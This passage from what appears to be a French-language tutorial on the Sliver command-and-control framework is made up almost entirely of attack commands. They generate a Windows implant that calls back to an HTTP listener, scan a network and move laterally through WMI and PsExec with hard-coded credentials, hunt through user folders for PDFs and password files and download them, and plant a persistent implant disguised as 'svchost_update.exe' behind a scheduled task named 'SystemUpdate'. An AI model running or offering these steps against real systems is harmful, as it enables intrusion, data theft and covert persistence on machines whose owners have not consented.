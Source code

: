 ### Mouvement latéral
```bash
# Scan réseau
sliver (<session>) > portscan 192.168.1.0/24

# Exécution à distance via WMI
sliver (<session>) > wmi --hostname target.domain.com --username admin --password pass123 --payload /path/to/implant.exe

# Exécution via PsExec
sliver (<session>) > psexec --hostname target.domain.com --username admin --password pass123 --payload /path/to/implant.exe
```

## 6. Exemples Pratiques {#exemples}

### Scénario 1: Accès Initial et Reconnaissance
```bash
# 1. Générer l'implant
sliver > generate --http 192.168.1.100:8080 --os windows --arch amd64 --format exe --save /tmp/implant.exe

# 2. Attendre la connexion
sliver > sessions

# 3. Reconnaissance de base
sliver > use <session-id>
sliver (<session>) > info
sliver (<session>) > whoami
sliver (<session>) > ps
sliver (<session>) > netstat
```

### Scénario 2: Exfiltration de données
```bash
# 1. Recherche de fichiers sensibles
sliver (<session>) > ls "C:\Users\"
sliver (<session>) > find "C:\Users\" "*.pdf"
sliver (<session>) > find "C:\Users\" "password*"

# 2. Exfiltration
sliver (<session>) > download "C:\Users\user\Documents\sensitive.pdf" /tmp/
sliver (<session>) > download "C:\Users\user\Desktop\passwords.txt" /tmp/
```

### Scénario 3: Établissement de persistance
```bash
# 1. Copier l'implant dans un répertoire permanent
sliver (<session>) > upload /tmp/implant.exe "C:\Windows\System32\svchost_update.exe"

# 2. Créer une tâche programmée
sliver (<session>) > persistence task --name "SystemUpdate" --path "C:\Windows\System32\svchost_update.exe" --trigger startup

# 3. Vérifier la persistance
sliver (<session>) > execute "schtasks /query /tn SystemUpdate"
```
